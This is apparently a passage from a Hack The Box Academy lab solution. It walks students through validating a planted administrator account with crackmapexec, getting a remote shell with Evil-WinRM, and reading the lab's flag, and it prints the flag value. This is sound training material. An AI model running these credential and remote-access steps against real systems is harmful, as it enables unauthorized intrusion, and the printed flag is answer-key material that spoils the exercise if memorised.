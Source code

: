 ![[HTB Solutions/CPTS/z. images/49fe2caa92737eeffc8c40fa545e38b2_MD5.jpg]]

Afterward, students can check for whether the user `prtgadm1` has been successfully created on the Windows machine using `crackmapexec`:

Code: shell

```shell
sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG!
```

```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-6la7uwnoyb]─[~]
└──╼ [★]$ sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG!

<SNIP>
SMB         10.129.201.50   445    APP03            [*] Windows 10.0 Build 17763 x64 (name:APP03) (domain:APP03) (signing:False) (SMBv1:False)
SMB         10.129.201.50   445    APP03            [+] APP03\prtgadm1:Pwn3d_by_PRTG! (Pwn3d!)
```

Now that students are assured the user has been added successfully, they need to connect to the spawned target machine, such as with `Evil-WinRM`:

Code: shell

```shell
evil-winrm -i STMIP -u prtgadm1 -p 'Pwn3d_by_PRTG!'
```

```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-6la7uwnoyb]─[~]
└──╼ [★]$ evil-winrm -i 10.129.201.50 -u prtgadm1 -p 'Pwn3d_by_PRTG!'

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\prtgadm1\Documents>
```

At last, students need to print out the contents of the flag file "flag.txt", which is inside the directory `C:\Users\Administrator\Desktop\`:

Code: shell

```shell
type C:\Users\Administrator\Desktop\flag.txt
```

```
*Evil-WinRM* PS C:\Users\prtgadm1\Documents> type C:\Users\Administrator\Desktop\flag.txt

WhOs3_m0nit0ring_wH0?
```
